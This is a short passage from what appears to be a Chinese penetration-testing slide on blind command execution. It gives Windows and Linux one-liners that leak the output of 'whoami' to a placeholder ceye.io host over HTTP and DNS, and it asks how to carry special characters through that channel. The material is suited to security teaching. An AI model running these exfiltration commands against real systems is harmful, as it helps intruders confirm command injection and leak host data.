

2、利用HTTP、DNS通道(无回显的命令执行)
Windows:
for /F %x in ('whoami') do start http://xxx.ceye.io/%x
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.xxx.ceye.io

Linux:
curl http://xxxx.ceye.io/`whoami`
ping -c 1 `whoami`.xxxx.ceye.io
问题：获取的字符往往是千奇百怪的
比如空格，如何才能稳稳的开车
获取到字符呢?